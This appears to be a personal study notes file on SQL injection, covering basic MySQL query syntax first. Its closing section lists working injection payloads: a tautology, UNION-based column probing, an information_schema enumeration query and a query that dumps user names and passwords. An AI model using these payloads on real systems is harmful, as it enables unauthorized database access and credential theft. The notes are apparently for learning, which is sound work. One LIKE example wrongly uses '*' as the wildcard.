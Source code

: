 # SQL Injection Notes

## mysql Port

3306

## Hierarchy

DB -> Table -> Columns -> Rows

## SQL Queries

Get all data from table:
```sql
SELECT * FROM table;
```

Get specific column data:
```sql
SELECT col FROM table;

SELECT col1,col2 FROM table;
```

Filter by condition:
```sql
SELECT col FROM table
WHERE col1 > 10;
```

String Filtering:
```sql
-- Get all names that start with Mi
SELECT * FROM table
where name LIKE "Mi*"
```

Orders, Limits, and Offsets:
```sql
SELECT * FROM table
ORDER BY col1 ASC/DESC
LIMIT 2
OFFSET 2;
```

## Notes

SQL Method:
```
php?item=4 or 1=1
```

See number of columns and select that number
```
php?item=4 union select 1,2,3

php?item=4 union select 1,2,3,@@version (display version)
```

Perform golden statement:
```
union select table_schema,2,table_name,column_name,5 from information_schema.columns #
```

```
union select id,2,name,pass,@@version from session.user #
```

